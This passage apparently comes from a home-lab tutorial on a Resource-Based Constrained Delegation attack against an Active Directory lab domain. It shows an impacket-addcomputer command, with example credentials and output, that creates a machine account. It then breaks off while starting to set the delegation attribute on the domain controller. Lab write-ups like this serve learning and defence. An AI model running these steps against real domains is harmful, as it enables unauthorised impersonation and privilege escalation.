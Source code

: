 <img src="Imgs/image2.png" alt="Error loading Image">

---

##  Exploiting RBCD Attack (From Linux)


### 1. Create a New Computer Account

We begin by creating a new computer account `NewComp$` using the user `jcharles` (password: `complex1@`). The new computer password is `password123`.

```bash
impacket-addcomputer -computer-name 'NewComp$' -computer-pass 'password123' -dc-host furious.local 'furious.local/jcharles:complex1@'
```

```bash
┌──(kali㉿kali)-[~/Home-lab/rbcd]
└─$ impacket-addcomputer -computer-name 'NewComp$' -computer-pass 'password123'  -dc-host furious.local  'furious.local'/'jcharles':'complex1@'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account NewComp$ with password password123.
```

---

### 2. Set the RBCD Permissions

We populate the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to allow `NewComp$` to impersonate accounts on the domain controller `DC01-FURIOUS5$`.
